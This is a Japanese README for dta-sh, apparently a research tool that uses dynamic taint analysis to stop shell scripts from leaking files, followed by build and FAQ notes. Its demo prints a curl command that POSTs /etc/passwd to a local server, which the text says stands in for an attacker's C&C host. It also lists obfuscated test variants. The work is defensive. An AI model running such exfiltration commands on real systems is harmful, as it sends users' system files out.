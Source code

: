 # 動的テイント解析を用いた悪性シェルスクリプトによる情報漏洩の阻止

dta-sh は動的テイント解析を用いて悪性シェルスクリプトによる情報漏洩を阻止するためのツール。
動的テイント解析には[libdft64](https://github.com/AngoraFuzzer/libdft64)を用いる。

## クイックスタート
`/etc/passwd`を外部に漏洩させるシェルスクリプトスクリプトの漏洩を阻止するデモ。
このシェルスクリプトはcurlコマンドを使用してPOSTリクエストで外部にファイルを送信する。
`src/sendfile.sh`にある。
```bash
# 情報漏洩を行うコマンド
curl -X POST -F f=@"/etc/passwd" localhost:9999
```
ファイルの送信先（漏洩先）は自分自身とする。
本来localhost:9999の部分は攻撃者が用意するC&Cサーバのドメイン名であるが、漏洩させるファイルを自身で受け取るためここではlocalhostとなる。

### デモの実行方法
環境は Ubuntu 20.04 LTS or 22.04 LTSで動作確認済み（WSL2でも動く）。

```bash
# 依存関係をインストール（初回のみ）
./setup.sh

# 環境変数(PIN_ROOT)を設定
source env.init

# POSTリクエストを受け取るHTTPサーバを起動
python3 server.py &

# dta-shをビルド
cd src
make

# デモを実行(デフォルトでは`../script/default.sh`が実行)
make demo

# スクリプトを指定してデモを実行
make demo SCRIPT=../script/pipeline.sh
# or
make demo SCRIPT=pipeline.sh
```
ログがたくさん出て、最終的に`[pid 93112] alert           : !!!! ABORT !!!!    Data leak detected`と出力されたらこのデモは成功。
うまく行かない場合は[FAQ](#FAQ)を参照。

### dta-shを使わない場合
作成したツール dta-sh を使わない場合どうなるか確認。
単に`sendfile.sh`を実行する。
```bash
./sendfile.sh
```
先程サーバを起動したターミナルに戻ると、赤文字の`/etc/passwd`の内容が出力されているはず。
これはサーバが受け取ったデータで、POSTリクエストにより`/etc/passwd`の内容が漏洩した。

## 各ディレクトリ・ファイルの説明
```
.
├── pin-3.20-98437-gf02b61307-gcc-linux/        # libdft64の依存ライブラリ
├── pin-3.20-98437-gf02b61307-gcc-linux.tar.gz  # ↑の圧縮ファイル
├── libdft64/   # 動的テイント解析ライブラリ
├── README.md   # このファイル
├── env.init    # 環境変数(PIN_ROOT)の設定
├── script/                         # 評価用のスクリプト
│   ├── default.sh                  # 評価基準
│   ├── alias.sh                    # エイリアス
│   ├── variable-alias.sh           # 変数を使ったエイリアス
│   ├── ansi-c-quoting.sh           # 難読化：ANSI-C Quoting(Bashの機能)
│   ├── bashfuscator.sh             # 難読化：Bashfuscator(サイズ小)
│   ├── long-bashfuscator.sh        # 難読化：Bashfuscator(サイズ大)
│   ├── command-substitution-1.sh   # コマンド置換(変数経由)
│   ├── command-substitution-2.sh   # コマンド置換(引数へ直接)
│   ├── pipeline.sh                 # パイプ
│   ├── process-substitution.sh     # プロセス置換
│   └── redirecting-input.sh        # 入力リダイレクト
├── server.py   # POSTリクエストを受け取るHTTPサーバ
├── setup.sh    # セットアップファイル
└── src/                # ソースコード
    ├── dta-sh.cpp      # ツールの本体
    ├── dta-sh.h        # ヘッダファイル
    ├── Makefile        # ビルドスクリプト
    ├── makefile.rules  # ビルドスクリプト
    └── sendfile.sh     # 情報漏洩を行うシェルスクリプト
```

## FAQ
エラーに関するものは起きたエラーがそのままタイトル。

### Makefile:18: /Config/makefile.default.rules: No such file or directory
[`PIN_ROOT`](#PIN_ROOTとは)が設定されておらず、PinのMakefileが見つからない。
Pinのディレクトリを環境変数経由で教えてやる。

```bash
source env.init
```

### dta-sh.cpp:58:15: error: unused variable 'sockfd' [-Werror=unused-variable]
Pintoolのコンパイルに`-Werror`が有効なため、WarningがすべてErrorとして扱われる。
Pintoolのコンパイルオプションはpin-3.20-98437-gf02b61307-gcc-linux/source/tools/Config/makefile.unix.configで定義されているため、`-Werror`を削除することでコンパイルが通る（WarningはWarningとして扱われる）。

```diff
- TOOL_CXXFLAGS_NOOPT := -Wall -Werror -Wno-unknown-pragmas -DPIN_CRT=1
+ TOOL_CXXFLAGS_NOOPT := -Wall -Wno-unknown-pragmas -DPIN_CRT=1
```

### likely()/unlikely()
条件分岐を最適化するためにコンパイラに与えるヒント。
libdft64/src/branch_pred.hで定義されている。

ref. https://stackoverflow.com/questions/109710/how-do-the-likely-unlikely-macros-in-the-linux-kernel-work-and-what-is-their-ben

### curl: (7) Failed to connect to localhost port 9999 after 468 ms: Connection refused
ローカルサーバが立っていない。
サーバを立ててやる。`&`はバックグラウンド実行の意味（Bashの機能）。

```
python3 server.py &
```

### PIN_ROOTとは
libdft64にPinのパスを教えるための環境変数。
make時、libdft64はこの変数を読んでpin.Hなりの場所を知る。

ref. https://software.intel.com/sites/landingpage/pintool/docs/98650/Pin/doc/html/index.html#UsefulVariables

### なぜMakefileとmakefile.rulesの2つがあるのか
Makefileは設定（ビルド用の変数`CXX := g++`など）を読み込む、ビルドレシピを読み込むファイル、
makefile.rulesはビルドするlibdft toolを定義するファイル。
Makefileは編集せず、makefile.rulesにのみビルドするlibdft toolを定義する。
変数などが隠されていて分かりにくい部分もあるが、libdft64/toolsのビルド方法をそのまま採用した。

### libdft tool（dta-sh.cppなど）のビルドレシピの場所
libdft toolを作る場合は、明示的にツールのビルドレシピを定義しなくてよい。
makefile.rulesの`TOOL_ROOT`にビルドするツールのファイル名（の拡張子を取ったもの）を定義するだけ。
詳細なビルドレシピは別の場所で定義されていて隠されている。
例えば、dta-sh.cppというlibdft toolをビルドするためには`TOOL_ROOT := dta-sh`と定義する。
するとmakeを実行するだけでobj-intel64/dta-sh.soというファイルが生成される。

### コールバック関数のTHREADIDとは
本ツールでは使わない。
THREADIDはPinのスレッドが使用するデータの配列へのインデックス。
ここでのスレッドはWinAPIのスレッドやPthreadsのスレッドではなく、Pinが管理するスレッド。

> Pin also provides an analysis routine argument (IARG_THREAD_ID), which passes a Pin-specific thread ID for the calling thread. This ID is different from the O/S system thread ID, and is a small number starting at 0, which can be used as an index to an array of thread data or as the locking value to Pin user locks. See the example Instrumenting Threaded Applications for more information.

ref. https://software.intel.com/sites/landingpage/pintool/docs/98650/Pin/doc/html/index.html#MT
